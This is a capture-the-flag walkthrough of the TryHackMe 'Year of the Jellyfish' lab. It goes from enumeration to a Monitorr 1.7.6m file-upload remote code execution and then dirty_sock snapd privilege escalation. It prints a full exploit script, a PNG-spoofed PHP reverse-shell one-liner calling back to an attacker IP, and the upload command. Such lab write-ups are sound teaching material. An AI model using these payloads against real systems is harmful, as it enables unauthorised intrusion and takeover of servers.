

# TryHackMe-Year of The Jellyfish

**Scope:**

- Snapd Service
- Advanced Package Tool (APT)
- Dirty Sock
- Monitorr

**Keywords:**

- Monitorr Vulnerability
- Script Modify
- Reverse Shell Methods
- System Exploit Enumeration
- Snapd Service Exploit
- Linux Exploit Suggester Script
- dirty_sock Script

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -p- -Pn --min-rate=300 --max-retries=3 $target_ip`
- `nmap -sV -sC -Pn -A -T4 -oN nmap_result.txt $target_ip -p-`
- `curl -ikLX GET https://robyns-petshop.thm`
- `curl -ikLX GET https://monitorr.robyns-petshop.thm`
- `gobuster dir -u https://monitorr.robyns-petshop.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -e -b 404,500,501,502,503 -t 50 -x html,php,txt`
- `wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404,403,500,501,502,503 -c -t 50 https://monitorr.robyns-petshop.thm/FUZZ`
- `searchsploit Monitorr 1.7.6m`
- `searchsploit -m php/webapps/48981.py && searchsploit -m php/webapps/48980.py`
- `python monitorrexploit.py https://monitorr.robyns-petshop.thm 10.2.37.37 443`
- `echo -e $'\\x89\\x50\\x4e\\x47\\x0d\\x0a\\x1a\\n<?php echo system(\'bash -c "bash -i >& /dev/tcp/10.8.24.219/443 0>&1"\');?>' > shell.png.pHp`
- `curl -k -F "fileToUpload=@./shell.png.pHp" 'https://monitorr.robyns-petshop.thm/assets/php/upload.php' -H "Cookie: isHuman=1"`
- `searchsploit Snapd 2.32`

**System Commands:**

- `dpkg --print-architecture`
- `find / -type f -perm /4000 2>/dev/null`
- `apt list --upgradeable`
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- `su dirty_sock`

### Laboratory Environment

[Year of the Jellyfish](https://tryhackme.com/r/room/yearofthejellyfish)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -p- -Pn --min-rate=300 --max-retries=3 $target_ip`

```bash
PORT    STATE SERVICE    VERSION
21/tcp  open  tcpwrapped
22/tcp  open  tcpwrapped
| ssh-hostkey: 
|_  2048 46:b2:81:be:e0:bc:a7:86:39:39:82:5b:bf:e5:65:58 (RSA)
80/tcp  open  tcpwrapped
|_http-title: Did not follow redirect to https://robyns-petshop.thm/
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http   Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| ssl-cert: Subject: commonName=robyns-petshop.thm/organizationName=Robyns Petshop/stateOrProvinceName=South West/countryName=GB
| Subject Alternative Name: DNS:robyns-petshop.thm, DNS:monitorr.robyns-petshop.thm, DNS:beta.robyns-petshop.thm, DNS:dev.robyns-petshop.thm
| Not valid before: 2024-09-22T09:27:34
|_Not valid after:  2025-09-22T09:27:34
|_ssl-date: TLS randomness does not represent time
|_http-title: Robyn&#039;s Pet Shop
| tls-alpn: 
|_  http/1.1
```

`cat nmap_result.txt | grep 'DNS'`

```bash
| Subject Alternative Name: DNS:robyns-petshop.thm, DNS:monitorr.robyns-petshop.thm, DNS:beta.robyns-petshop.thm, DNS:dev.robyns-petshop.thm
```

`nano /etc/hosts`

```bash
34.242.170.56   robyns-petshop.thm dev.robyns-petshop.thm beta.robyns-petshop.thm monitorr.robyns-petshop.thm
```

`nmap -sV -sC -Pn -A -T4 -oN nmap_result.txt $target_ip -p-`

```bash
[REDACTED] - SAME RESULT
```

> **HTTPS Port Check**
> 

`curl -ikLX GET https://robyns-petshop.thm`

```bash
HTTP/1.1 200 OK
Date: Sun, 22 Sep 2024 09:46:39 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 3671
Content-Type: text/html; charset=UTF-8

            <h1>Welcome!</h1>
<h2>Welcome to the best Pet Shop in Bristol</h2>
<p>Here are Robyn's Pet Shop we have the happiest collection of animals for sale. Be it a cute little Guinea Pig, a puppy, an adorable bunny rabbit, or your first goldfish, we have the pet for you! </p>
<p>We also have many animals needing rehomed in our shelter, so please come visit to meet your new best friend.</p>
<p>Meet some of our animals in need of a new home:</p>
<p><br>
<em>Fred the Goldfish | Shelter</em></p>
<p><br>
<em>Honey the Beagle Puppy | Shop</em></p>
<p><br>
<em>Credence the Chameleon | Shop</em></p>
<p><br>
<em>Gerald the Giraffe | Shelter... Don't ask</em></p>
<p><br>
<em>Alistair the Alligator | Shelter... Don't ask, but <strong>please</strong> send help</em></p>
<p>As you can see have a wide array of pets available (be warned that some may come with unexpected medical expense charges attached... the NHS doesn't deal with goldfish bites). Come and <a href="?contact">visit us</a> any time!</p>
        </div>
```

`curl -ikLX GET https://monitorr.robyns-petshop.thm`

```bash
    <!--
    __  __             _ _
    |  \/  |           (_) |
    | \  / | ___  _ __  _| |_ ___  _ __ _ __
    | |\/| |/ _ \| '_ \| | __/ _ \| '__| '__|
    | |  | | (_) | | | | | || (_) | |  | |
    |_|  |_|\___/|_| |_|_|\__\___/|_|  |_|
            made for the community
    by @seanvree, @wjbeckett, and @jonfinley
    https://github.com/Monitorr/Monitorr
    -->

[REDACTED] - MORE

                <div id="stats" class="container centered">
                    <!-- system badges go here -->
                </div>

            </div>

        </div>

            <!-- Check if datadir has been established: -->
        
            <!-- Loading modal indicator: -->
        <div id="modalloadingindex" class="modalloadingindex" title="Monitorr is checking services.">
            
            <p class="modaltextloadingindex">Monitorr is loading ...</p>

        </div>

        <div id="services" class="container">

            <div class="row">
                <div id="statusloop">
                    <!-- loop data goes here -->
                </div>
            </div>

        </div>

        <div id="footer">

             <script src="assets/js/update_auto.js" async></script>

             <div id="settingslink">
                <a class="footer a" href="settings.php" target="s" title="Monitorr Settings"><i class="fa fa-fw fa-cog"></i>Monitorr Settings </a>
            </div>

<p> <a class="footer a" href="https://github.com/monitorr/Monitorr" target="_blank" title="Monitorr Repo">
Monitorr </a> |
<a class="footer a" href="https://github.com/Monitorr/Monitorr/releases"
target="_blank" title="Monitorr Releases"> 1.7.6m

[REDACTED] - MORE

```

> **Directory Scan & Endpoint Control**
> 

`gobuster dir -u https://monitorr.robyns-petshop.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -e -b 404,500,501,502,503 -t 50 -x html,php,txt`

```bash
https://monitorr.robyns-petshop.thm/.html                (Status: 403) [Size: 293]
https://monitorr.robyns-petshop.thm/.php                 (Status: 403) [Size: 293]
https://monitorr.robyns-petshop.thm/index.php            (Status: 200) [Size: 14974]
https://monitorr.robyns-petshop.thm/data                 (Status: 301) [Size: 343] [--> https://monitorr.robyns-petshop.thm/data/]
https://monitorr.robyns-petshop.thm/assets               (Status: 301) [Size: 345] [--> https://monitorr.robyns-petshop.thm/assets/]
https://monitorr.robyns-petshop.thm/changelog.html       (Status: 200) [Size: 4655]
https://monitorr.robyns-petshop.thm/robots.txt           (Status: 200) [Size: 87]
https://monitorr.robyns-petshop.thm/settings.php         (Status: 200) [Size: 16335]
https://monitorr.robyns-petshop.thm/LICENSE.txt          (Status: 200) [Size: 1086]
```

`wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404,403,500,501,502,503 -c -t 50 https://monitorr.robyns-petshop.thm/FUZZ`

```bash
[REDACTED] - SAME RESULT

000000182:   301        9 L      28 W       343 Ch      "data"                                                                            
000000291:   301        9 L      28 W       345 Ch      "assets"

[REDACTED] - SAME RESULT
```

> **Searching Exploit**
> 

`searchsploit Monitorr 1.7.6m`

```bash
---------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------- ---------------------------------
Monitorr 1.7.6m - Authorization Bypass                                                                          | php/webapps/48981.py
Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)                                                       | php/webapps/48980.py
---------------------------------------------------------------------------------------------------------------- ---------------------------------
```

`searchsploit -m php/webapps/48981.py && searchsploit -m php/webapps/48980.py`

```bash
  Exploit: Monitorr 1.7.6m - Authorization Bypass
      URL: https://www.exploit-db.com/exploits/48981
     Path: /usr/share/exploitdb/exploits/php/webapps/48981.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (412)
Copied to: /root/Desktop/CyberLearningFramework/yearofthejellyfish/48981.py

  Exploit: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/48980
     Path: /usr/share/exploitdb/exploits/php/webapps/48980.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (434)
Copied to: /root/Desktop/CyberLearningFramework/yearofthejellyfish/48980.py
```

> **Monitorr Exploit & File Extension Spoofing Phase**
> 

**For more information:**

[Monitorr 1.7.6m - Authorization Bypass](https://www.exploit-db.com/exploits/48981)

[Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)](https://www.exploit-db.com/exploits/48980)




`nano monitorrexploit.py`

```bash
import requests
import os
import sys
import random
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

if len (sys.argv) != 4:
  print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    targetFile = str(random.randint(1000, 10000))
    data = f"-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"{targetFile}.png.pHp\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"
    print(data)
    cookies = {"isHuman" : "1"}

    postReg = requests.post(url, headers=headers, data=data, cookies=cookies, verify=False)
    print(postReg.text)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + f"/assets/data/usrimg/{targetFile}.png.pHp"
    print(url)
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    getReq=requests.get(url, headers=headers, cookies=cookies, verify=False)
    print(getReq.text)
```

`nc -nlvp 443`

```bash
listening on [any] 443 ...
```

`python monitorrexploit.py https://monitorr.robyns-petshop.thm 10.2.37.37 443`

```bash
-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name="fileToUpload"; filename="2325.png.pHp"
Content-Type: image/gif

GIF89a213213123<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.2.37.37/443 0>&1'");

-----------------------------31046105003900160576454225745--

<div id='uploadreturn'>File 2325.png.pHp is an image: <br><div id='uploadok'>File 2325.png.pHp has been uploaded to: ../data/usrimg/2325.png.php</div></div>
A shell script should be uploaded. Now we try to execute it
https://monitorr.robyns-petshop.thm/assets/data/usrimg/2325.png.pHp
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at monitorr.robyns-petshop.thm Port 443</address>
</body></html>

```


```bash
listening on [any] 443 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.186.203] 57300
bash: cannot set terminal process group (895): Inappropriate ioctl for device
bash: no job control in this shell
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ whoami
whoami
www-data
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ pwd
pwd
/var/www/monitorr/assets/data/usrimg
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ 
```

> **Another Reverse Shell Method for Monitorr Exploit**
> 

`echo -e $'\\x89\\x50\\x4e\\x47\\x0d\\x0a\\x1a\\n<?php echo system(\'bash -c "bash -i >& /dev/tcp/10.8.24.219/443 0>&1"\');?>' > shell.png.pHp`

`curl -k -F "fileToUpload=@./shell.png.pHp" 'https://monitorr.robyns-petshop.thm/assets/php/upload.php' -H "Cookie: isHuman=1"`

```bash
<div id='uploadreturn'>File shell.png.pHp is an image: <br><div id='uploadok'>File shell.png.pHp has been uploaded to: ../data/usrimg/shell.png.php</div></div> 
```


> **System Enumeration**
> 

```bash
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ dpkg --print-architecture
amd64
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ find / -type f -perm /4000 2>/dev/null
/bin/mount
/bin/su
/bin/ping
/bin/umount
/bin/fusermount
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newuidmap
```

> **Advanced Package Tool Enumeration**
> 

```bash
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ apt list --upgradeable

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Listing...
apache2/bionic-updates,bionic-security 2.4.29-1ubuntu4.27 amd64 [upgradable from: 2.4.29-1ubuntu4.14]
apache2-bin/bionic-updates,bionic-security 2.4.29-1ubuntu4.27 amd64 [upgradable from: 2.4.29-1ubuntu4.14]
apache2-data/bionic-updates,bionic-updates,bionic-security,bionic-security 2.4.29-1ubuntu4.27 all [upgradable from: 2.4.29-1ubuntu4.14]
apache2-utils/bionic-updates,bionic-security 2.4.29-1ubuntu4.27 amd64 [upgradable from: 2.4.29-1ubuntu4.14]
apparmor/bionic-updates,bionic-security 2.12-4ubuntu5.3 amd64 [upgradable from: 2.12-4ubuntu5.1]
apport/bionic-updates,bionic-updates,bionic-security,bionic-security 2.20.9-0ubuntu7.29 all [upgradable from: 2.20.9-0ubuntu7.23]
apt/bionic-updates 1.6.17 amd64 [upgradable from: 1.6.13]
apt-transport-https/bionic-updates,bionic-updates 1.6.17 all [upgradable from: 1.6.13]
apt-utils/bionic-updates 1.6.17 amd64 [upgradable from: 1.6.13]
base-files/bionic-updates 10.1ubuntu2.12 amd64 [upgradable from: 10.1ubuntu2.10]
bash/bionic-updates,bionic-security 4.4.18-2ubuntu1.3 amd64 [upgradable from: 4.4.18-2ubuntu1.2]
bind9-host/bionic-updates,bionic-security 1:9.11.3+dfsg-1ubuntu1.18 amd64 [upgradable from: 1:9.11.3+dfsg-1ubuntu1.14]
binutils/bionic-updates,bionic-security 2.30-21ubuntu1~18.04.9 amd64 [upgradable from: 2.30-21ubuntu1~18.04.5]
binutils-common/bionic-updates,bionic-security 2.30-21ubuntu1~18.04.9 amd64 [upgradable from: 2.30-21ubuntu1~18.04.5]
binutils-x86-64-linux-gnu/bionic-updates,bionic-security 2.30-21ubuntu1~18.04.9 amd64 [upgradable from: 2.30-21ubuntu1~18.04.5]
busybox-initramfs/bionic-updates,bionic-security 1:1.27.2-2ubuntu3.4 amd64 [upgradable from: 1:1.27.2-2ubuntu3.3]
busybox-static/bionic-updates,bionic-security 1:1.27.2-2ubuntu3.4 amd64 [upgradable from: 1:1.27.2-2ubuntu3.3

[REDACTED] - MORE

www-data@petshop:/var/www/monitorr/assets/data/usrimg$ apt list --upgradeable | grep 'snapd'

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

snapd/bionic-updates,bionic-security 2.58+18.04.1 amd64 [upgradable from: 2.32.5+18.04]

www-data@petshop:/var/www/monitorr/assets/data/usrimg$
```

> **Exploit Searching with Linux Exploit Suggester Script**
> 

```bash
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ cd /tmp
www-data@petshop:/tmp$ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O suggesterLinux.sh
Saving to: 'suggesterLinux.sh'

     0K .......... .......... .......... .......... .......... 56% 41.3M 0s
    50K .......... .......... .......... ........             100%  321M=0.001s

2024-09-22 11:50:46 (66.6 MB/s) - 'suggesterLinux.sh' saved [90858/90858]
www-data@petshop:/tmp$ ls -lsa | grep 'suggesterLinux.sh'
92 -rw-r--r--  1 www-data www-data 90858 Sep 22 11:50 suggesterLinux.sh
www-data@petshop:/tmp$ chmod +x suggesterLinux.sh
www-data@petshop:/tmp$ ls -lsa | grep 'suggesterLinux.sh'
92 -rwxr-xr-x  1 www-data www-data 90858 Sep 22 11:50 suggesterLinux.sh
www-data@petshop:/tmp$ ./suggesterLinux.sh

[REDACTED] - MORE

[+] [CVE-2019-7304] dirty_sock

   Details: https://initblog.com/2019/dirty-sock/
   Exposure: less probable
   Tags: ubuntu=18.10,mint=19
   Download URL: https://github.com/initstring/dirty_sock/archive/master.zip
   Comments: Distros use own versioning scheme. Manual verification needed.
   
[REDACTED] - MORE

```

**For the script source:**

[raw.githubusercontent.com](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

> **Privilege Escalation with Snapd Service**
> 

`searchsploit Snapd 2.32`

```bash
---------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------- ---------------------------------
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (1)                                             | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (2)                                             | linux/local/46362.py
---------------------------------------------------------------------------------------------------------------- ---------------------------------
```

```bash
www-data@petshop:/tmp$ wget https://github.com/initstring/dirty_sock/archive/master.zip

Saving to: 'master.zip'

     0K .......... .......... .                                24.7M=0.001s

2024-09-22 11:55:26 (24.7 MB/s) - 'master.zip' saved [22384]

www-data@petshop:/tmp$ unzip master.zip
Archive:  master.zip
c68e35ae3eb7f49a398c7d7f35bb920c79dc9b0e
   creating: dirty_sock-master/
   creating: dirty_sock-master/.github/
   creating: dirty_sock-master/.github/ISSUE_TEMPLATE/
  inflating: dirty_sock-master/.github/ISSUE_TEMPLATE/bug_report.md  
  inflating: dirty_sock-master/LICENSE  
  inflating: dirty_sock-master/README.md  
  inflating: dirty_sock-master/dirty_sockv1.py  
  inflating: dirty_sock-master/dirty_sockv2.py  

www-data@petshop:/tmp$ cd dirty_sock-master
www-data@petshop:/tmp/dirty_sock-master$ ls -lsa
ls -lsa
total 76
 4 drwxr-xr-x 3 www-data www-data  4096 May  9  2019 .
 4 drwxrwxrwt 3 root     root      4096 Sep 22 11:56 ..
 4 drwxr-xr-x 3 www-data www-data  4096 May  9  2019 .github
36 -rw-r--r-- 1 www-data www-data 35071 May  9  2019 LICENSE
 8 -rw-r--r-- 1 www-data www-data  6104 May  9  2019 README.md
 8 -rwxr-xr-x 1 www-data www-data  5501 May  9  2019 dirty_sockv1.py
12 -rwxr-xr-x 1 www-data www-data  8696 May  9  2019 dirty_sockv2.py

www-data@petshop:/tmp/dirty_sock-master$ python3 dirty_sockv2.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//

[+] Slipped dirty sock on random socket file: /tmp/oqkoowfewq;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...

********************
Success! You can now `su` to the following account and use sudo:
   username: dirty_sock
   password: dirty_sock
********************

www-data@petshop:/tmp/dirty_sock-master$ export TERM=xterm
www-data@petshop:/tmp/dirty_sock-master$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@petshop:/tmp/dirty_sock-master$ su dirty_sock
su dirty_sock
Password: dirty_sock

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

dirty_sock@petshop:/tmp/dirty_sock-master$ whoami
whoami
dirty_sock
dirty_sock@petshop:/tmp/dirty_sock-master$ id
id
uid=1001(dirty_sock) gid=1001(dirty_sock) groups=1001(dirty_sock),27(sudo)

```

**For the script source:**

[github.com](https://github.com/initstring/dirty_sock/archive/master.zip)

# Appendix

## Snapd Service

<aside>
💡

The Snapd service is a background service responsible for managing Snap packages on Linux systems. Snap packages, or Snaps, are a form of software deployment that allows developers to bundle their applications with all necessary dependencies, making it easier to distribute and run software on a wide variety of Linux distributions without worrying about package compatibility issues. Snapd installs, updates, and removes Snap packages. It automatically ensures that Snap packages are kept up-to-date by checking for updates regularly and applying them without requiring user intervention. Snaps run in a confined environment (sandbox), isolated from the system's core components. This reduces the risk of a malicious or broken application affecting the overall system.

</aside>

## Advanced Package Tool (APT)

<aside>
💡

The Advanced Package Tool (APT) is a package management system used in Debian-based Linux distributions, such as Ubuntu, to handle the installation, upgrading, and removal of software packages. APT makes it easier for users to manage the software on their systems by automating many of the processes involved in maintaining software, such as resolving dependencies, downloading packages from repositories, and keeping the system up-to-date.

</aside>

## Dirty Sock

<aside>
💡

CVE-2019-7304, commonly known as "Dirty Sock", is a vulnerability in the Snapd service on Linux-based systems, discovered by Chris Moberly. The vulnerability allows local privilege escalation, meaning a local unprivileged user could gain root access on the system.

</aside>

## Monitorr

<aside>
💡

**Monitorr** is an open-source self-hosted web application that provides users with a customizable **dashboard** to monitor the status and health of various applications, services, and devices. It serves as a **self-hosted status page**, allowing users to consolidate information from different services and display real-time statistics in one place. Users can host the Monitorr app on their own server, giving full control over data and how it’s displayed. It's designed to be lightweight and run on low-resource systems like Raspberry Pi, VPS, or dedicated servers.

</aside>